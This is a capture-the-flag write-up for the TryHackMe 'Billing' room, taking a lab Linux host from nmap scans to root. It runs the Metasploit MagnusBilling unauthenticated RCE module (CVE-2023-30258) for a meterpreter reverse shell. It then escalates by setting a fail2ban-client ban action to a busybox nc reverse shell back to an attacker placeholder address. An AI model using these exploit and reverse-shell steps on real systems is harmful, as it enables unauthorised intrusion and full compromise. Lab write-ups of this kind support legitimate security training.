 ```yaml
---
title: "Billing"
date: 2025-03-10
image: /assets/img/tryhackme/Billing/Billing_image.jpg
description: Writeup of the TryHackMe-CTF Billing
categories: [Tryhackme, Easy]
tags: [linux, metasploit, web, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Billing</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Some mistakes can be costly.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/billing">https://tryhackme.com/room/billing</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Billing.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.46.219         
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-08 05:13 EST
  Nmap scan report for 10.10.46.219
  Host is up (0.046s latency).
  Not shown: 65531 closed tcp ports (conn-refused)
  PORT     STATE SERVICE
  22/tcp   open  ssh
  80/tcp   open  http
  3306/tcp open  mysql
  5038/tcp open  unknown

  Nmap done: 1 IP address (1 host up) scanned in 22.38 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80,3306,5038 10.10.46.219
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-08 05:14 EST
  Nmap scan report for 10.10.46.219
  Host is up (0.042s latency).

  PORT     STATE SERVICE  VERSION
  22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
  | ssh-hostkey: 
  |   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
  |   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
  |_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
  80/tcp   open  http     Apache httpd 2.4.56 ((Debian))
  | http-robots.txt: 1 disallowed entry 
  |_/mbilling/
  | http-title:             MagnusBilling        
  |_Requested resource was http://10.10.46.219/mbilling/
  |_http-server-header: Apache/2.4.56 (Debian)
  3306/tcp open  mysql    MariaDB (unauthorized)
  5038/tcp open  asterisk Asterisk Call Manager 2.10.6
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 8.34 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

The webserver showed the login page of MagnusBilling, which is an open-source billing system for VoIP-services:

![MagnusBilling login](/assets/img/tryhackme/Billing/thm_billing_1.jpg)

I checked for potential vulnerabilities in `metasploit` and found an interesting exploit:
```bash
msf6 > search MagnusBilling

Matching Modules
================

   #  Name                                                        Disclosure Date  Rank       Check  Description
   -  ----                                                        ---------------  ----       -----  -----------
   0  exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258  2023-06-26       excellent  Yes    MagnusBilling application unauthenticated Remote Command Execution.
   1    \_ target: PHP                                            .                .          .      .
   2    \_ target: Unix Command                                   .                .          .      .
   3    \_ target: Linux Dropper                                  .                .          .      .

```

After loading the module, I set the required options and executed the exploit: 
```bash
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set RHOSTS 10.10.251.160
RHOSTS => 10.10.251.160
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set SRVHOST [attackerip]
SRVHOST => [attackerip]
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set LHOST [attackerip]
LHOST => [attackerip]
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > exploit

[*] Started reverse TCP handler on 10.21.63.26:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 10.10.251.160:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 5 seconds.
[*] Elapsed time: 5.15 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 10.10.251.160
[+] Deleted lTTlGxPShDz.php
[*] Meterpreter session 1 opened ([attackerip]:4444 -> 10.10.251.160:39784) at 2025-03-08 05:38:44 -0500

meterpreter > 
```

With this initial access, I successfully retrieved the user flag:
```bash
meterpreter > shell
  Process 1750 created.
	Channel 0 created.
whoami
	asterisk
cd /home
ls
	magnus
cd magnus
ls
  Desktop
  Documents
  Downloads
  Music
  Pictures
  Public
  Templates
  Videos
  user.txt
cat user.txt
  THM{[removed]}
```

## Privilege Escalation root

To obtain a more stable shell, I switched to `penelope`:

![Switch to penelope](/assets/img/tryhackme/Billing/thm_billing_2.jpg)

I continued with `sudo -l` and got the following output:
```bash
asterisk@Billing:/home$ sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

After researching Fail2Ban, I discovered that it is possible to execute Bash commands in addition to network block events. Before I started to missuse this I checked if I can control `fail2ban`:
```bash
asterisk@Billing:/home$ sudo fail2ban-client restart
  Shutdown successful
  Server ready
```

Great! Using this, I misused it with an additional ban-action:
```bash
asterisk@Billing:/var/tmp$ sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'busybox nc [attackerip] 9001 -e bash'"
```

Finally, I started a listener and triggered this by manually blocking an IP address in the `sshd jail`: 
```bash
asterisk@Billing:/var/tmp$ sudo /usr/bin/fail2ban-client set sshd banip 10.11.12.13
```

I successfully established the connection and retrieved the root flag.:
```bash
$ nc -lvnp 9001                 
listening on [any] 9001 ...
connect to [attackerip] from (UNKNOWN) [10.10.251.160] 47964
whoami
	root
cd /root
ls
	filename
	passwordMysql.log
	root.txt
cat root.txt
	THM{[removed]}
```

solved! :)
